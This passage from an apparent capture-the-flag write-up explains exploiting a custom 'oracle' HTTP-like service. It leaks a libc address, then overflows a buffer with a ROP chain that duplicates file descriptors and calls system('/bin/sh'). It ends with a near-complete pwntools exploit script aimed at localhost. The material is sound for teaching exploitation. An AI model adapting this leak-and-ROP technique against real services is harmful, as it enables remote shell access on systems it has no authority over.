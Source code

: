 So have to adjust the offset slightly to be `10` less, and that gives a perfect offset.

Now we have the offset, we simply need to create a ropchain. We must call `dup2` to duplicate file descriptors `0` and `1` to our connection file descriptor, and then call system. Initially this fails, so we also have to throw in an extra `ret` to account for [stack alignment](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment).

```sh
$ropper -f libc-2.31.so --search 'ret'
[...]
0x0000000000022679: ret;
[...]
```

We also have to brute force the file descriptor of our connection for the duplication. It's `3` for the listening port, `4` and `5` for the libc connections, so finally `6` for the final exploit. We luckily did not need to mess with any bad characters, which `\n` and `:` would be due to the way they are treated in the code.

## Final Exploit

```python
from pwn import *

IP = '127.0.0.1'
PORT = 9001

context.binary = './challenge/oracle'
libc = ELF('libc-2.31.so')

# create chunks, including buffer chunk
p = remote(IP, PORT)
p.send(b'PLAGUE /huh HTTP/1.1\r\nContent-Length: 200\r\nPlague-Target: test\r\n\r\nf')
p.close()

# libc leak
p = remote(IP, PORT)
p.send(b'PLAGUE /huh HTTP/1.1\r\nContent-Length: 200\r\nPlague-Target: test\r\n\r\nf')

p.recvuntil(b'plague: ')
p.recv(8)       # may as well ignore corrupted pointer and take the second
leak = u64(p.recv(8))
log.success(f'Leak: 0x{leak:x}')

libc.address = leak - 0x1ecbe0
log.success(f'Libc base: 0x{libc.address:x}')

p.close()

# buffer overflow
rop = ROP(libc)

rop.dup2(6, 0)
rop.dup2(6, 1)
rop.raw(libc.address + 0x22679)
rop.system(next(libc.search(b'/bin/sh\x00')))

p = remote(IP, PORT)

payload = b'PLAGUE /huh HTTP/1.1\r\n'
payload = payload.ljust(1024, b'A')
payload += b'\n' * 0x4e
payload += rop.chain()
payload += b'\r\n\r\nf\r\n'

```